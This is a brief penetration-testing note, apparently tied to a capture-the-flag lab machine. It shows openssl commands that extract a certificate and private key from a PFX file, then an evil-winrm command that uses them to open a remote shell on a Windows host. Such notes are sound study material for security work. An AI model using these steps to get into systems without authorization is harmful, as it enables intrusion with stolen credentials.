 ## Login via PFX File:
First we need to extract the key and the certificate from the pfx file:
```bash
# Extracting the public certificate:
openssl pkcs12 -in legacyy_dev_auth.pfx -clcerts -nokeys -out publicCert.pem
# Extracting the private key:
openssl pkcs12 -in legacyy_dev_auth.pfx -nocerts -out priv-key.pem -nodes
```
Finally you can login with this files using evil-winrm
#Note (-S) is used if there is only winrm/ssl open port (tcp-5986):
```bash
evil-winrm -i 10.10.11.152 -c publicCert.pem -k priv-key.pem -S 
```
Examples:
[[Timelapse#^d3fbae]]

References:
[How to Extract Certificate and Private Key from PFX](https://tecadmin.net/extract-private-key-and-certificate-files-from-pfx-file/) 